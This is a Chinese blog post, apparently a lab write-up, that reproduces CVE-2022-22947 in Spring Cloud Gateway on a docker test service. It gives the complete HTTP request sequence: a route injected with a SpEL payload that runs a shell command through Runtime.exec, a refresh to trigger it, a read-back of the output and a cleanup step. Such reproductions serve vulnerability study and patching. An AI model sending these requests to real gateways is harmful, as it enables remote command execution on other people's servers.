





# Spring Cloud Gateway Actuator API SpEL 表达式注入命令执行（CVE-2022-22947） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283232.html`](https://www.cnblogs.com/NoCirc1e/p/16283232.html)

Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。

参考链接：

*   [`tanzu.vmware.com/security/cve-2022-22947`](https://tanzu.vmware.com/security/cve-2022-22947)
*   [`wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/`](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)

## 漏洞环境

执行如下命令启动一个使用了 Spring Cloud Gateway 3.1.0 的 Web 服务：

```
docker-compose up -d
```



服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是 example.com。



## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```



然后，发送如下数据包应用刚添加的路由。这个数据包将触发 SpEL 表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```



发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```



最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close 
```


再刷新下路由：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```